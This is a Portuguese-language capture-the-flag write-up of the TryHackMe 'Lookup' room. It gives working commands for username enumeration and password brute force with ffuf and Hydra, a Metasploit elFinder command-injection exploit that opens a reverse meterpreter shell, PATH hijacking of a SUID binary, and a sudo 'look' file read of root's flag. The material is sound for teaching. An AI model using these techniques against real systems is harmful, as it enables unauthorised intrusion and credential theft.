







# Lookup Writeup

> [!NOTE] 
> **[EN]** This version of the writeup is in portuguese. Click [here]() or follow [this link (github)]() to go to the english version.

> **Link para o desafio CTF**: [https://tryhackme.com/room/lookup](https://tryhackme.com/room/lookup)
> 
> **Dificuldade:** `Fácil`
> 
> **Data de Resolução:** `2026/05/09`
## Sumário

> Link do writeup no github: [https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Lookup/(PT-BR)%20Lookup%20Writeup.md](https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Lookup/(PT-BR)%20Lookup%20Writeup.md)

- [Ferramentas Utilizadas](#ferramentas%20utilizadas)
- [Resolução do CTF](#Resolução%20do%20CTF)
	1. [Reconhecimento](#Reconhecimento)
	2. [Exploração](#Exploração)
	3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)
- [Conclusão](#Conclusão)
- [Referências](#Referências)
## Ferramentas Utilizadas

Para este CTF, foram utilizadas as seguintes ferramentas:
- [Nmap](https://nmap.org/)[^nmap]: ferramenta de exploração da internet, criada para escanear rapidamente redes de larga escala. O Nmap realiza diversas requisições para um IP para determinar quais hosts estão disponíveis naquela rede, quais serviços que eles oferecem (por exemplo, HTTP, ssh, ...), quais sistemas operacionais (e versões destes) estão utilizando dentre outras informações. Sendo uma ferramenta poderosa para a enumeração de serviços e fornecimento de informações básicas sobre os hosts de uma rede, dados essenciais para alguém que está tentando invadir um sistema, o Nmap é muito utilizado em situações de pentesting e geralmente faz parte do primeiro passo nos CTFs.
- [Gobuster](https://github.com/OJ/gobuster)[^gobuster]: ferramenta responsável por enumerar por força bruta diretórios e arquivos, detectar subdomínios DNS e hosts virtuais, dentre outras funções. Por ser de alta performance, o Gobuster é essencial para agilizar o processo de encontrar diretórios de sistemas, poupando o desgaste da pessoa invasora de procurá-los manualmente, sendo, portanto recomendado para CTFs e pentesting.
- [Ffuf](https://github.com/ffuf/ffuf)[^ffuf]: web fuzzer rápido que permite descobrir virtual hosts, diretórios, parâmetros GET e POST, por exemplo. Fuzzing[^fuzz] é a técnica de prover muitos dados de entrada, tanto válidos, quanto inválidos, inesperados ou aleatórios para um programa de computador, permitindo encontrar exceções, crashes ou vazamentos de memória, que podem revelar vulnerabilidades e bugs no código, ou seja, comportamentos inesperados. Essa ferramenta, então, é útil para encontrar possíveis bugs e vulnerabilidades em um sistema, sendo muito utilizada em contextos de CTFs e pentesting.
- [Hydra](https://github.com/vanhauser-thc/thc-hydra)[^hydra]: ferramenta de quebra de login que suporta diversos protocolos, dentre eles o SSH. Essa ferramenta torna possível mostrar o quão fácil pode ser ganhar acesso remoto a um sistema sem a devida autorização. A hydra é, portanto, uma ótima ferramenta para descobrir a senha em sistemas e pode testar várias senhas, dado um arquivo, permitindo assim uma força bruta com senhas mais comuns, por exemplo, sendo bem útil também para contextos de CTFs, em que o arquivo com senhas para testar pode estar escondido no sistema. 
- [searchsploit](https://www.exploit-db.com/searchsploit)[^searchsploit]: ferramenta de pesquisa da [Exploit Database](https://www.exploit-db.com)[^exploitdb] que permite buscar por CVEs e outras vulnerabilidades de forma offline pelo terminal. As Common Vulnerabilities and Exposures[^CVE] são referências públicas a vulnerabilidades de segurança e a  [Exploit Database](https://www.exploit-db.com)[^exploitdb] contém uma lista dessas vulnerabilidades, com descrições e modos de replicar. O `searchsploit`[^searchsploit] permite que o processo de busca seja feito rapidamente por meio do terminal e é muito utilizado em contextos de penetration tests e CTFs.
- [metasploit](https://www.metasploit.com/)[^metasploit]: framework para penetration testing, suportando todas as suas fases, desde coleta de informações até pós-exploração.  Essa ferramenta automatiza a descoberta, exploração, entrega de payloads, obtenção de shells, dentre outros, ou seja, é muito útil para agilizar o processo de pentesting e CTFs.

Bem como recursos como:
- [GTFOBins](https://gtfobins.org/)[^gtfo]:  lista de executáveis estilo Unix que permitem ultrapassar restrições de segurança em sistemas vulneráveis, muito útil para realizar escalação de privilégio. Assim como o site anterior, contém um compilado de funções para várias situações.


## Resolução do CTF

O CTF Lookup, disponível no TryHackMe, é um desafio de dificuldade fácil que requer a exploração de um sistema para achar a flag de usuário e de root. Neste CTF foi-se utilizada uma vulnerabilidade do Elfinder[^elfinder], descoberta com o `searchsploit`[^searchsploit], bem como fuzzing de pedidos http, path hijacking e o acesso de arquivos de root de uma forma diferenciada.

Após conectar-me ao VPN do TryHackMe, obtive acesso à maquina e iniciei o desafio. A estratégia usada foi dividida em duas partes:

1. [Reconhecimento](#Reconhecimento)
2. [Exploração](#Exploração)
3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)

Para facilitar a entrada de argumentos, adicionei ao `etc/hosts` uma relação entre o IP da máquina vulnerável com um nome de domínio (`vul.net`). Com tudo preparado, comecei o reconhecimento.

### Reconhecimento

A primeira coisa que fiz para o reconhecimento da máquina-alvo foi uma enumeração da rede com o `nmap`[^nmap], executando:

```sh 
nmap -T5 -A vul.net
```

em que `-T5` representa o template de temporização (de 0 a 5, quanto maior, mais rápido, ou seja, mais interações e menos discrição, o que não costuma ser um problema em CTFs básicos) e `-A` habilita a detecção de SO, detecção de versão, traceroute e scan de scripts. Dados relevantes da enumeração estão a seguir:

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-09 14:50 -0400
Nmap scan report for vul.net (<TARGET_IP>)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:c9:90:23:02:8d:5e:ac:d8:20:63:cf:3a:cd:dd:bb (RSA)
|   256 d6:9e:45:b6:26:a9:c4:e6:0e:21:b2:5d:18:b3:fe:d4 (ECDSA)
|_  256 4a:b4:c7:ab:b2:d1:6a:75:b4:02:36:ca:93:22:d7:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://lookup.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
#[...]
```

em que percebi que o sistema era baseado em Apache, com as portas abertas sendo 22 (ssh) 80 (http). Percebi, porém, que o redirecionamento para a página padrão não estava funcionando, corroborado pelo fato de que não foi possível acessar o site por `vul.net`: 



Por meio da enumeração inicial, vi que havia um virtual host com o nome `lookup.thm`. Inserí-lo em `/etc/hosts` e, ao executar o `nmap`[^nmap] nesse novo endereço, a página foi resolvida corretamente:

```sh
$ nmap lookup.thm -A -T5
#[...]
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login Page
|_http-server-header: Apache/2.4.41 (Ubuntu)
#[...]
```

Agora com o serviço http acessível, decidi explorá-lo inicialmente. Enquanto eu abria a página web, já decidi executar um comando no `gobuster`[^gobuster], para adiantar a enumeração de diretórios:

```sh
gobuster dir -u http://lookup.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

Este comando busca os diretórios com a wordlist fornecida (`-w`, com uma wordlist contendo uma lista de diretórios mais comuns), no url fornecido (`-u`) e com as extensões fornecidas (`-x`, em que coloquei as mais comuns como php, html e txt), na quantidade de threads fornecida (`-t`, e, mais uma vez, discrição não é essencial nesse CTF, então o número escolhido foi alto para agilizar o processo). O resultado final obtido foi o seguinte:

```sh
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lookup.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 719]
login.php            (Status: 200) [Size: 1]
server-status        (Status: 403) [Size: 275]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

Enquanto o `gobuster`executava, acessei `http://lookup.thm`, e me deparei com uma página de login (`http://lookup.thm/index.php`):



Testando qualquer input, eu era redirecionado para uma página (`http://lookup.thm/login.php`), com a seguinte mensagem:



Sendo esses dois diretórios os únicos acessíveis e relevantes encontrados pelo `gobuster`[^gobuster], eu precisava testar algo diferente. Com isso, decidi tentar fazer um fuzzing com uma senha constante e usuários variados para ver se a mensagem de erro poderia fornecer alguma dica. Para isso, usei o comando:

```sh
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -X POST -u http://lookup.thm/login.php -d "username=FUZZ&password=pwned" -H "Content-Type:application/x-www-form-urlencoded"
```

em que `-w` contém a wordlist (no caso, usei uma com o nome de usuários[^userlist]), `-u` é o URL para realizar o fuzzing, `-X` aponta o método http a ser usado (nesse caso, POST), `-d` contém o dado para ser enviado pelo método POST (o usuário recebe a palavra FUZZ, que será substituída pelos conteúdos da wordlist, enquanto que a senha é fixa e escolhida arbitrariamente por mim) e `-H` é usado para indicar o formato do cabeçalho, indicando como interpretar os dados enviados em `-d` (como estou em uma aplicação web, coloquei `application/x-www-form-urlencoded` para diminuir a chance de erros). Como a minha lista de palavras era muito grande, interrompi a execução logo no começo quando percebi que o retorno padrão das respostas era `74`, então com um simples `-fs 74`, filtrei essas mensagens e obtive o resultado abaixo:

```sh
$ ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -X POST -u http://lookup.thm/login.php -d "username=FUZZ&password=pwned" -H "Content-Type:application/x-www-form-urlencoded" -fs 74
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=pwned
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 74
________________________________________________

admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 147ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 143ms]
```

Realmente, ao testar "admin" como um usuário e uma senha aleatória, realmente, a resposta que obtive foi diferente:



Com isso, fiz o fuzzing para senha de "admin", usando a wordlist `rockyou.txt`[^rockyou]:

```sh
ffuf -w /usr/share/wordlists/rockyou.txt -X POST -u http://lookup.thm/login.php -d "username=admin&password=FUZZ" -H "Content-Type:application/x-www-form-urlencoded"
```

Vendo que a resposta padrão era de tamanho `62`, filtrei o resultado:

```sh
ffuf -w /usr/share/wordlists/rockyou.txt -X POST -u http://lookup.thm/login.php -d "username=admin&password=FUZZ" -H "Content-Type:application/x-www-form-urlencoded" -fs 62

       /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 62
________________________________________________

<PASSWORD_1>             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 144ms]

```

Porém, ao testar o conjunto "admin" e `<PASSWORD_1>`, obtive um erro, novamente:


Como todas as outras mensagens de erro para "admin" teriam sido "Wrong password" (tamanho `62`), isso me fez questionar se `<PASSWORD_1>` não poderia ser uma senha válida para outro usuário, no caso, "jose". Realmente, ao testar no site, consegui acessar com o par "jose" e `<PASSWORD_1>`, algo corroborado pelo fuzzing de usuários com a senha `<PASSWORD_1>`:

```sh
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -X POST -u http://lookup.thm/login.php -d "username=FUZZ&password=<PASSWORD_1>" -H "Content-Type:application/x-www-form-urlencoded" -fs 74

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=<PASSWORD_1>
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 74
________________________________________________

jose                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 144ms]

```

Todavia, após o login com "jose" e `<PASSWORD_1>`, o redirecionamento para `http://files.lookup.thm` não foi resolvido, então tive que colocar o subdomínio `files.lookup.thm` em `/etc/hosts`:



### Exploração

Com o subdomínio em `/etc/hosts` fui redirecionado para um explorador de arquivos:



A maioria dos arquivos em si continham apenas palavras aleatórias. O arquivo `thislogin.txt` continha o par usuário e senha para "jose" que eu usei para acessar essa página e o arquivo `credentials.txt` continha a linha `think : nopassword`. Tentei usar essas credenciais tanto na página de login quanto no terminal com `ssh`, mas não obtive sucesso.

Procurando um pouco, encontrei que o software usado para esse explorador de arquivos era o elFinder[^elfinder] e que ele estava na versão `2.1.47`.



Usando o `searchsploit`[^searchsploit], encontrei as seguintes vulnerabilidades:

```sh
searchsploit elfinder 2.1.47
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
elFinder 2.1.47 - 'PHP connector' Command Injection                               | php/webapps/46481.py
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)       | php/remote/46539.rb
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)       | php/remote/46539.rb
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Como a primeira opção, `'PHP connector' Command Injection`[^edb-46481] (CVE-2019-9194), era exatamente a versão do elFinder deste desafio, decidi testar esse exploit. A vulnerabilidade consiste em permitir a execução remota de código como usuário do servidor web. Isso ocorre por meio do upload de uma imagem válida contendo o comando para uma shell, que é ativado ao rotacionar tal imagem, o que abre uma webshell que se torna interativa para o atacante.

Ao procurar no `metasploit`[^metasploit], encontrei o exploit e configurei o `RHOST` para o IP da máquina-alvo e o `LHOST` para o IP da minha máquina:

```sh
msf > search elfinder php connector
#[...]
   1  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection
#[...]  
msf > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf auxiliary(admin/http/elfinder_ghostcat) > set RHOSTS vul.net
RHOSTS => vul.net
msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST tun0
LHOST => <MY_IP>
```

Com tudo pronto, executei o exploit e uma sessão do `meterpreter` for aberta. Para facilitar a navegação, abri uma shell e a elevei parcialmente:

```sh
msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
#[..]
meterpreter > shell
/usr/bin/script -qc /bin/bash /dev/null
<var/www/files.lookup.thm/public_html/elFinder/php$ cd /home
www-data@<TARGET_IP>:/home$ whoami
www-data
www-data@<TARGET_IP>:/home$ ls
ssm-user  think  ubuntu
```

Ao listar os usuários, encontrei um chamado `think`, assim como o que havia visto em `credentials.txt`, e a o arquivo `user.txt` estava lá, onde a flag de usuário provavelmente estaria, porém como `www-data`, eu não tinha permissão de abrir o arquivo:

```sh
www-data@<TARGET_IP>:/home$ cd think
www-data@<TARGET_IP>:/home/think$ ls
user.txt
www-data@<TARGET_IP>:/home/think$ cat user.txt
cat: user.txt: Permission denied
```

Ainda nesse diretório, listei os arquivos escondidos com um `ls -la`:

```
www-data@<TARGET_IP>:/home/think$ ls -la
total 40
drwxr-xr-x 5 think think 4096 Jan 11  2024 .
drwxr-xr-x 5 root  root  4096 May  9 18:49 ..
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .bash_history -> /dev/null
-rwxr-xr-x 1 think think  220 Jun  2  2023 .bash_logout
-rwxr-xr-x 1 think think 3771 Jun  2  2023 .bashrc
drwxr-xr-x 2 think think 4096 Jun 21  2023 .cache
drwx------ 3 think think 4096 Aug  9  2023 .gnupg
-rw-r----- 1 root  think  525 Jul 30  2023 .passwords
-rwxr-xr-x 1 think think  807 Jun  2  2023 .profile
drw-r----- 2 think think 4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null
-rw-r----- 1 root  think   33 Jul 30  2023 user.txt

```

O único outro arquivo que parecia interessante, `.passwords` só poderia ser lido por `think` ou pelo próprio usuário `root`. O próximo passo para poder ler o arquivo `user.txt`, então, seria escalar privilégios ou mudar para o usuário `think`. Assim tentei ver as permissões de `www-data` com `sudo -l`, porém pedia uma senha, a qual eu não tinha. Como `sudo -l` não me ofereceu informações, pesquisei arquivos com permissão de superuser e achei um arquivo peculiar:

```sh
www-data@<TARGET_IP>:/home/think$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
#[...]
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pwm
/usr/bin/at
#[...]
/usr/bin/umount
```

O comando `/usr/sbin/pwm` não é um comando que deveria estar com permissões SUID, então o executei para ver o que ele realizava:

```sh
www-data@<TARGET_IP>:/home/think$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

O programa extraía o ID do usuário (no meu caso, `www-data`) e, após identificar o nome do usuário, tentava abrir o arquivo em `/home/www-data/.passwords`. Esse arquivo não existia naquele diretório, mas existia em `/home/think/.passwords`. Como não valeria à pena tentar alterar o meu ID para `root`, dado que `/home/root/.passwords` não seria um diretório válido, e eu sabia que `think` era capaz de ler, decidi fazer um path hijacking de `id`, ou seja, forçar que o meu comando `id` fosse executado ao invés do comando padrão do sistema, de modo que o ID lido seria o de `think`:

```sh
www-data@<TARGET_IP>:/tmp$ echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
www-data@<TARGET_IP>:/tmp$ chmod +x /tmp/id
www-data@<TARGET_IP>:/tmp$ export PATH=/tmp:$PATH
```

Com isso, ao executar `/usr/sbin/pwm`, o comando `/tmp/id` foi chamado com sucesso e uma lista de senhas foi escrita em meu terminal:

```sh
www-data@<TARGET_IP>:/tmp$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
#[...]
jose.2856171
```

Copiei o conteúdo para um arquivo, `passwords.txt` e usei o seguinte comando com o `hydra`[^hydra] para fazer um ataque de força bruta ao `ssh` do usuário `think`:

```bash
hydra -l think -P ~/passwords.txt ssh://vul.net:22  
```

Esse comando essencialmente testa o login (`-l`) para um usuário `think` com o arquivo contendo senhas (`-P`) `passwords.txt` no serviço ssh do ip e porta dados. O resultado que obtive foi:

```sh
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-09 16:11:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://vul.net:22/
[22][ssh] host: vul.net   login: think   password: <PASSWORD_2> 
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-09 16:11:17
```

Assim, com a senha `<PASSWORD_2>` de `think` descoberta, a utilizei para acessar o serviço `ssh` como este usuário e obter a `<USER_FLAG>` em `user.txt`:

```sh
$ ssh think@vul.net 
#[...]
think@<TARGET_IP>:~$ whoami
think
think@<TARGET_IP>:~$ ls
user.txt
think@<TARGET_IP>:~$ cat user.txt
<USER_FLAG>
```
### Escalação de Privilégios

Por fim, era necessário escalar privilégios e encontrar a flag em `/root`. Para isso, testei no terminal as permissões do usuário `think`:

```sh
think@<TARGET_IP>:~$ sudo -l
[sudo] password for think: # <PASSWORD_2>
Matching Defaults entries for think on <TARGET_IP>:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on <TARGET_IP>:
    (ALL) /usr/bin/look
```

O comando `look` em si não proporciona a escalação de privilégios, porém permite a leitura de arquivos, o que é suficiente para ler a flag em `/root`, dado que tem permissão SUID. Com o comando fornecido pelo GTFObins[^gtfo], consegui ler o arquivo `root.txt`, que continha a `<ROOT_FLAG>`:

```
think@<TARGET_IP>:~$ sudo look '' /root/root.txt
<ROOT_FLAG>
```

e finalizei o CTF.
## Conclusão

O CTF Lookup permitiu explorar uma vulnerabilidade listada pela Exploit Database do elFinder que permitia a execução de comandos embutidos em imagens, o que permitiu realizar o acesso remoto ao sistema como `www-data`. A partir disso, após criar uma versão contendo o ID e nome do usuário `think` do comando `id` que fosse executada ao invés do comando do sistema, foi possível descobrir a senha para o usuário `think` por força bruta, ao obter uma lista de senhas do arquivo `.passwords` lido por meio de um comando com SUID que justamente precisava do ID de `think`. Com a senha obtida, consegui, com sucesso, acessar a flag de usuário com o usuário `think`, o qual também conseguia acessar a flag de root sem escalar privilégios por meio do comando `look`, que continha permissões privilegiadas, encontrando, assim, todas as flags do CTF.
## Referências

[^nmap]: Nmap: [https://nmap.org/](https://nmap.org/)
[^gobuster]: Gobuster: [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)
[^hydra]: Hydra: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
[^ffuf]: Ffuf: [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)
[^fuzz]: Sobre fuzzing: [https://en.wikipedia.org/wiki/Fuzzing](https://en.wikipedia.org/wiki/Fuzzing)
[^searchsploit]: Searchsploit: [https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)
[^exploitdb]: Exploit Database (Exploit-DB): [https://www.exploit-db.com](https://www.exploit-db.com)
[^CVE]: Sobre CVEs: [https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures)
[^metasploit]: Metasploit: [https://www.metasploit.com/](https://www.metasploit.com/)
[^gtfo]: GTFOBins: [https://gtfobins.org/](https://gtfobins.org/)
[^userlist]: Wordlist de usernames: [https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames-dup.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames-dup.txt)
